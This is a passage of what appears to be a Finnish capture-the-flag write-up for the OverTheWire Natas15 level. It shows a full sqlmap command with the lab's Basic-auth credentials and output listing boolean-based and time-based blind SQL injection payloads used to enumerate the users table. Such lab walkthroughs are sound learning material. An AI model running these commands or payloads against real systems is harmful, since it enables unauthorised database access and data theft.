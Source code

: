```
[12:57:18] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[12:57:18] [WARNING] your sqlmap version is outdated

[*] ending @ 12:57:18 /2025-05-18/
```

## etsitään sarakkeet/sisältö taulusta esim. (users)

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type=Basic \
--auth-cred=natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data="username=natas16" \
--string="This user exists" \
--level=5 --risk=3 \
--columns -D natas15 -T users
        ___
       __H__                                                                                                                   
 ___ ___[']_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . ["]     | .'| . |                                                                                                      
|___|_  ["]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:58:37 /2025-05-18/

[12:58:38] [INFO] resuming back-end DBMS 'mysql' 
[12:58:38] [INFO] testing connection to the target URL
[12:58:38] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[12:58:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[12:58:38] [INFO] fetching columns for table 'users' in database 'natas15'
[12:58:38] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[12:58:38] [INFO] retrieved: 
[12:58:38] [WARNING] reflective value(s) found and filtering out
2
[12:58:43] [INFO] retrieved: username
[12:58:53] [INFO] retrieved: varchar(64)
```